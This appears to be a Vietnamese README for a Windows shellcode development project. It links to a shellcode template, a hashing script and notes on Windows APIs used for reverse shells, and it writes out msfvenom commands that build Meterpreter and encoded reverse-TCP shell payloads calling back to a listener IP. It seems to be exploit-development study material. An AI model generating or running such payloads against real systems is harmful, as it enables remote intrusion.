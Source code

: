 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


Tạo meterpreter:
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -f exe -v met.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=443 -f python –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

cài pwntool
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
